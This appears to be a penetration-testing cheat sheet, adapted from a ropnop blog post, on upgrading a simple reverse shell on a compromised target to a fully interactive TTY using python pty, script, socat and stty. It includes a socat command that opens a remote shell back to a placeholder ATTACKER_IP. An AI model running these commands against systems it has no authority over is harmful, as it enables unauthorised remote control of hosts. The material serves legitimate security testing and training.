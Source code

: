 # Upgrading Simple Shells to Fully Interactive TTYs

When you get a basic shell (e.g., via reverse shell), it often lacks features like tab completion, arrow keys, or job control. Here are three common ways to upgrade your shell to a fully interactive TTY.

---

## 1. Python PTY Spawn

If Python is available on the target:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
or for Python 3:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 2. Using `script` Command

If `script` is available:

```bash
script /dev/null -c bash
```

---

## 3. Socat PTY

If `socat` is available on both attacker and target:

**On the attacker's machine:**
```bash
socat file:`tty`,raw,echo=0 tcp-listen:PORT
```

**On the target:**
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:PORT
```

---

## 4. Magic
1. Examine the stty info so we can force the connected shell to match it:
    ```bash
    echo $TERM
    stty -a
    ```

2. Press `Ctrl+Z` to background the shell, then run the following on your local machine:
    ```bash
    stty raw -echo
    fg
    reset
    ```
3. To fix issues with terminal size, run:
    ```bash
    # From output of step 1.
    export TERM=xterm256-color 
    export SHELL=bash
    stty rows <num> columns <num>
    ```
- Now enjoy the fully interactive shell.

---

## Credits

Content adapted from: [ropnop - Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)